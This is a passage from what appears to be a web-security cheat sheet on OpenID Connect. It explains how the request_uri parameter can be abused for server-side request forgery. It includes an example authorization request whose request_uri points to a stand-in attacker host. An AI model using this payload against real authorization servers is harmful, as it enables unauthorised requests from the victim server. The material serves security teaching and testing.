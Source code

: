 All parameters and their definitions you can find [here](https://openid.net/specs/openid-connect-registration-1_0.html#ClientMetadata).

## SSRF via request_uri parameter

The [request_uri](https://openid.net/specs/openid-connect-core-1_0.html#UseRequestUri) parameter is fetched by the server at the start of the authorization process (do not confuse this parameter with `redirect_uri`).

Many servers do not allow arbitrary `request_uri` values: they only allow whitelisted URLs that were pre-registered during the client registration process. But even if dynamic client registration is not enabled, or it requires authentication, you can try to bypass a validation and perform SSRF on the authorization endpoint by using `request_uri`:

```http
https://auth-server.com/auth?
    response_type=code%20id_token&
    client_id=s6BhdRkqt3&
    request_uri=https://attacker-website.com/request.jwt
```

# References

- [OpenID Connect Core 1.0](https://openid.net/specs/openid-connect-core-1_0.html)
- [PortSwigger Articles: Hidden OAuth attack vectors](https://portswigger.net/research/hidden-oauth-attack-vectors)
